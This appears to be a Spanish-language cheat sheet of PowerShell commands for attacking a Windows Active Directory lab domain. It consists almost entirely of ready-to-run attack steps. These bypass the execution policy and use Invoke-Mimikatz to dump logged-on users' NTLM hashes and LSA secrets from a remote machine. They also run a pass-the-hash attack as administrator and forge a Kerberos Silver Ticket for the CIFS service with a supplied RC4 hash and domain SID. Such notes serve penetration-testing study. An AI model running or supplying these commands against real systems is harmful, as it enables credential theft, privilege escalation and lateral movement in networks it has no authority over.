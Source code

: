 **Enumerar todos los posibles tokens**

```powershell
Invoke-TokenManipulation –Enumerate
```

**Mostrar todos los hashes NTLM de los usuarios que han iniciado sesion**

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

**Realizar un ataque PtH en una powershell con permisos de Administrador**

```powershell
cd C:\Tools

# Dar permisos de bypass
powershell -ep bypass

# Importar modulo
. .\Invoke-Mimikatz.ps1

# Ataque PtH
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:research.security.local /ntlm:84398159ce4d01cfe10cf34d5dae3909 /run:powershell.exe"'
```

**En la consola dada, realizamos una busqueda para encontrar la cuenta del sistema que tiene la contraseña de la maquina victima (FQDN)**

```powershell
cd C:\Tools

# Dar permisos de bypass
powershell -ep bypass

# Importar modulo
. .\Invoke-Mimikatz.ps1

# Mostrar la cuenta del sistema victima
Invoke-Mimikatz -Command '"lsadump::lsa /inject"' -Computername prod.research.SECURITY.local
```

**Generar el Silver Ticket en una Powershell Standard**

```powershell
cd C:\Tools

# Dar permisos de bypass
powershell -ep bypass

# Importar modulo
. .\Invoke-Mimikatz.ps1

# Generar Silver Ticket
Invoke-Mimikatz -Command '"kerberos::golden /domain:research.SECURITY.local /sid:S-1-5-21-1693200156-3137632808-1858025440 /target:prod.research.SECURITY.local /service:CIFS /rc4:d5f92467d4425e5f34fb55893e8a7768 /user:administrator /ptt"'
```
